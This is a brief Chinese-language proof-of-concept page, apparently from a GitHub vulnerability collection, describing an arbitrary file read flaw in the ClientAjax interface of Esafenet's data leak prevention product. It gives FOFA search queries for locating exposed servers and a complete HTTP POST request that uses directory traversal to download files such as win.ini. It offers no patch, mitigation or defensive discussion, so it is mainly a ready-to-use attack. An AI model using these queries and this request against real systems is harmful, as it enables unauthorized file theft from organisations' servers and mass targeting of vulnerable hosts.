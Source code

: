 ## 亿赛通-数据泄露防护(DLP)ClientAjax接口存在任意文件读取漏洞

亿赛通-数据泄露防护是一款专门防止您的私人数据资产在分享、存储过程中，被他人非法窃取或使用的安全产品。亿赛通-数据泄露防护(DLP)ClientAjax接口存在任意文件读取漏洞。


## fofa
```
body="CDGServer3" || title="电子文档安全管理系统" || cert="esafenet" || body="/help/getEditionInfo.jsp"||body="/CDGServer3/index.jsp"
```

## poc
```
POST /CDGServer3/ClientAjax HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Length: 102
Content-Type: application/x-www-form-urlencoded

command=downclientpak&InstallationPack=../../../../../../../../../../windows/win.ini&forward=index.jsp
```
